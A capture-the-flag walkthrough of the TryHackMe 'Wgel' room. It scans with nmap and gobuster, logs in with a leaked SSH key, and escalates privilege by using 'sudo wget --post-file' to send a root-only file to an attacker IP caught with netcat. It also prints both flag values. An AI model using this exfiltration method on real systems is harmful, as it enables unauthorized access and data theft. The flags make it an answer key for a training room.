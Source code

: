 # Wgel CTF THM Room
## Scanning
### Nmap
```
nmap -sC -sV -oN nmapInitial [ip]
```

```python
Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-24 16:44 BST
Nmap scan report for ip-10-10-207-223.eu-west-1.compute.internal (target-ip)
Host is up (0.0029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:6E:6D:97:AF:3F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.98 seconds
```

### Gobuster
```
gobuster dir -u http://target-ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

```python
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://target-ip
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/10/24 16:45:59 Starting gobuster
===============================================================
/sitemap (Status: 301)
/server-status (Status: 403)
===============================================================
2023/10/24 16:46:21 Finished
===============================================================
```

## Enumeration
- When going to the IP address at port 80, we see the default Apache web page for a new web server installation. [Gobuster](https://github.com/OJ/gobuster) didn't yield any immediately helpful results, so let's do some basic enumeration. When viewing the page source code, I found the following HTML comment:
```html
 <!-- Jessie don't forget to udate the webiste -->
```

- This gives us a potential username to try and log in to the machine via SSH. Let's look around more and see if there is any other juicy data to find.
- When we visit the `/sitemap` page found via [Gobuster](https://github.com/OJ/gobuster), we are greeted with the following:

![UNAPP Page](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/6a6ffdfa-b99b-4670-ad27-8af02fea54d8)


- UNAPP looks to be a basic web app template that users can build from. That would make sense as to why it is located on this new web server. 
- We can run another [Gobuster](https://github.com/OJ/gobuster) scan to see if we can enumerate more directories under `/sitemap`. To do this, we can use the following syntax:
```
gobuster dir -u http://[ip]/sitemap -w /usr/share/wordlists/dirb/common.txt
```

- From this scan, we get the following output:
```python
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://target-ip/sitemap
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/10/24 18:18:43 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.ssh (Status: 301)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
===============================================================
2023/10/24 18:18:44 Finished
===============================================================
```

- We can see that there are a few directories that were discovered, but the most interesting one seems to be the `/.ssh` one. When I see this on a Linux machine, I typically find hidden id_rsa keys that can be leveraged to log into a device via SSH. Doing some enumeration, I found an id_rsa key under that directory. 

## System Hacking
- Now that we have found an `id_rsa` key, we can try and pair it with the `Jessie` username to connect to the machine via SSH. To do this, we must first copy the contents of the `id_rsa` file on the web server into an `id_rsa` file on our host machine. Then we have to use the following syntax to change permissions for the `id_rsa` file before we can us it:
```
chmod 600 id_rsa
```

- Now we can use the following syntax to SSH into the machine:
```
ssh jess@[ip] -i id_rsa
```

- From here, we can navigate to the `~/Documents` directory and cat out the user flag:
	- user_flag.txt - 057c67131c3d5e42dd5cd3075b198ff6

## Privilege Escalation
- One of the first things I do when I get user access to a machine is to check what permissions the user I have compromised can run with root privileges. In this case, I get the following output when I use `sudo -l`:
```
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

- Since we can run `wget` with sudo permissions, I looked it up on [GTFOBins](https://gtfobins.github.io/), but it didn't pan out successfully. 
- However, we can use `wget` to post information by using the `--post-file` option. Since it has root permissions, it would stand to reason that using `sudo wget` would allow us to post files from the root directory. To do this, we can use the following syntax:
```
sudo wget --post-file=/root/root_flag.txt [attacker ip] 8888
```

- Now all we have to do is run that command once we set up a [Netcat](https://nmap.org/ncat/) listener on our attacking machine and we should be good to go:
```
nc -lnvp 8888
```

- Running the `wget` command specified above should give use the following, with the last line being the root flag:
```
Connection from target-ip 43424 received!
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.10.0.86:8888
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d
```

## Rabbit Holes
### Username Enumeration Exploit
- At one point, I was struggling to find more directories under the `/sitemap` one. I had gone through all of the .js file and .scss files and couldn't find anything of value. So I decided to look up exploits related to the version of SSH that was running, and that led me to [this page](https://www.exploit-db.com/exploits/40136) that basically outline username enumeration via a Python script. This worked, but it didn't yield useful results since I already had the correct username that I needed to log into the target machine. 
